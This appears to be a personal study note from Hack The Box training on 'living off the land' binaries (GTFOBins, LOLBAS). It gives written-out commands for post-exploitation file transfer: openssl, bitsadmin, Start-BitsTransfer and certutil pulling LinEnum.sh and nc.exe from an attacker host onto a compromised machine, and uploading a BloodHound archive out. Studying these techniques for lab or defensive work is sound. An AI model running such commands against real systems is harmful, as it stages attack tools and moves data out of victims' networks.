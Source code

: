 ```yaml
---
title:  "LOLBins"
tags:
  - cs/hacking
  - cs/hacking/htb
programming-languages:
created: 2022-07-11
---
```

Aka Living off the land binaries, which are binaries that an attacker can use to perform actions beyond their original purpose.

Two websites on this:
- LOLBAS Project for **Windows** Binaries ([here](https://lolbas-project.github.io/#))
- GTFOBins for **Linux** Binaries ([here](https://gtfobins.github.io/))

They can be used to perform actions like:
- Download
- Upload
- Command Execution
- File Read
- File Write
- Bypasses

## GTFOBins
We can search for the download and upload function using `+file download` and `+file upload`:

We can use **openssl**. We first need to create a certificate and start a server.

### Create Certificate in Pwnbox
```bash
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

### Stand up the Server in our Pwnbox
```bash
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Now to download the file from the compromised machine.

### Download File from the Compromised Machine
```bash
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Other Lol Tools
### Bitsadmin Download function
The Background Intelligent Transfer Service ([BITS](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal)) can be used to download files from HTTP sites and SMB shares.

#### File download with bitsadmin
```powershell
PS bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
```

#### Download
```powershell
Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"
```

#### Upload
```powershell
Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override-ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql
```

### Certutil
A defacto to `wget`. The Antimalware Scan Interface (AMSI) detects this as malicious Certutil usage:

```bash
cerutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```